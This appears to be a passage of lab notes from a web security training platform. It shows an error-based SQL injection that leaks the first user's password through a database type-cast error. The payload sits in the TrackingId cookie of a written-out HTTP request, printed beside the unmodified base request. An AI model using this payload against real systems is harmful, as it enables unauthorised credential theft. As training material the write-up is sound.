
Note that the injection is clipped after a certain number of characters
The error will be displayed with the password if within limit 

##### payload request
GET /filter?category=Gifts HTTP/2
Host: 0a8a000603bff7958afc7b9400e30073.web-security-academy.net
Cookie: TrackingId=_' AND 1= CAST((SELECT password FROM users LIMIT 1) AS int)--_; session=JXypkarDOyfXCKSeqYvKHQOsQ6ATQuG2
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8a000603bff7958afc7b9400e30073.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### base request
GET /filter?category=Gifts HTTP/2
Host: 0a8a000603bff7958afc7b9400e30073.web-security-academy.net
Cookie: TrackingId=rAQ922VWQWB92b1z; session=JXypkarDOyfXCKSeqYvKHQOsQ6ATQuG2
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8a000603bff7958afc7b9400e30073.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


